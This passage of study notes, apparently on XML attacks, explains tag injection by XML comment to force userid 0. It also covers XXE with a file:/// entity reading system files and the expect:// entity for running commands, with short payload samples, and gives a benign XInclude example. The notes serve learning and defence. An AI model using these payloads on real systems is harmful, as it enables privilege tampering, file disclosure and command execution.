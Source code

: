 - ...

###### Tag Injection

1) Through comment

```text
Username: tony
Password: Un6R34kb!e</password><!--
E-mail: --><userid>0</userid><mail>s4tan@hell.com
```

Becomes

```xml
<user>
    <username>tony</username>
    <password>Un6R34kb!e</password><!--</password>
    <userid>500</userid>
    <mail>--><userid>0</userid><mail>s4tan@hell.com</mail>
</user>
```

###### XXE

XXE is an example of Server-Side Request Forgery (SSRF) where we define a external entity using an XML Data Type Definition

For instance, here below, the *Entity* "xxe" will show "Bouh"

```xml
<!DOCTYPE thomas[
<!ELEMENT thomas ANY >
<!ENTITY xxe "Bouh" >]>
<user>
  <username>&xxe;</username>
</user>
```

If we change the "Bouh" by **<!ENTITY xxe "Bouh" >]>** by **<!ENTITY xxe SYSTEM "file:///etc/host >]>**, it will perform a Local File Include by calling the system to display the content of /etc/host

Something to know is the "expect" module that requires old version of PHP.
It allows to run command on the system.
For instance *<!ENTITY xxe SYSTEM "expect://whoami" >]>

###### XInclude

[XInclude](https://en.wikipedia.org/wiki/XInclude) is a generic mechanism for merging XML documents, by writing inclusion tags in the "main" document to automatically include other documents or parts thereof.

For instance we have a text file "license.txt" which is the following
> This document is published under GNU Free Documentation License

And then the following XHTML

```xhtml
<?xml version="1.0"?>
<html xmlns="http://www.w3.org/1999/xhtml"
      xmlns:xi="http://www.w3.org/2001/XInclude">
   <head>...</head>
   <body>
      ...
      <p><xi:include href="license.txt" parse="text"/></p>
   </body>
</html>
```
